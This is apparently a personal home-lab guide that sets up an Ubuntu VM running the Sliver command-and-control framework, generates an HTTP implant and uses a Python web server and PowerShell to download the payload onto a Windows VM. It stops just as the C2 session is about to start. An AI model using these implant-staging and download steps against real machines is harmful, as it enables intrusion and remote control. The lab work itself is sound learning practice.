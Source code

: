 # Ubuntu Config


### Set a static IP during the install (IPv4 Manual Config)
		Set a username && password
		name: user
		server name: attack
		Username: user
		Password: password
		
		Install OpenSSH server
			check / yes
		
		Continue Installing until it's complete
		Showing [Reboot now] then hit enter and Reboot
		
		After reboot check connectivity
			login with credentials
		
		check DNS outbound pings work
			ping -c 3 google.com
		
		if you see the icmp 3 times your good to go


#### Setup Attack System (Linux VM)



	Since im on a MacOS in goint to SSH into the Linux VM from 
	my terminal. I do this because I can copy and paste as well as 
	scroll and look at output whereas on the VM itself once the 
	words have left the screen there is now way for me to bring 
	them back down.
	
	
	Open up a terminal and ssh into the machine
	
		ssh user@ipaddress-of-vm
	
	
	Inside the session proceed to setup the attacker c2 server
	switch root user
	
		sudo su
	
	
	Now we want to download Sliver a Command & Control c2 framework
	By: BishopFox
	You can copy & paste or type it in if you know what your doing
	
	# Download Sliver Linux server binary
	
	wget https://github.com/BishopFox/sliver/releases/download/
	v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
	
	
	# Make it Executable
	
	chmod +x /usr/local/bin/sliver-server
	
	
	# Install mingw-w64 for additional capabilities
	
	apt install -y mingw-w64
	
	
	We need a working Directory for future steps
	
		mkdir -p /opt/sliver
	
	
	
	### Explore these menu options and become familar with them
	
	Timeline (saves an extra 2-3 hours setting up other VMs)
	Processes (Real-time list of process activity)
	Network (Real time list active connections & listening ports)
	File System (Browse entire file system)



#### Generate C2 Payload


	On the Linux Terminal Change into Root if not already
		sudo su
	
	Then change Directory
		cd /opt/sliver
	
	
	Launch Sliver server
		sliver-server
	
	
	Generate a C2 session payload (inside the Sliver shell)
		generate --http linux-ipaddress --save /opt/sliver
		
		take note of the unique output file
	
	
	Confirm the configuration of the new implants
		impants
		
	
	We have a payload we can drop on our Windows VM for now exit
		exit
	
	
	To Download the C2 payload from the Linux to the Windows VM
	We can use a python trick to spin up a temporary web server
	
	Change into the opt sliver Directory
		cd /opt/sliver
	
	Spin up the python server
		python3 -m http.server 80
	
	
	In the Windows VM open an Admin PowerShell console
	Download the C2 payload from the Linux VM to the Windows
	
	IWR -Uri http://linux-ipaddress/payload-name.exe -OutFile
	C:\Users\User\Downloads\payload-name.exe
	
	Take a snapshot of Windows VM before staging the malware
		name Snapshot "Malware staged" or something similar
	
	
	
#### Start C2 Command and Control Session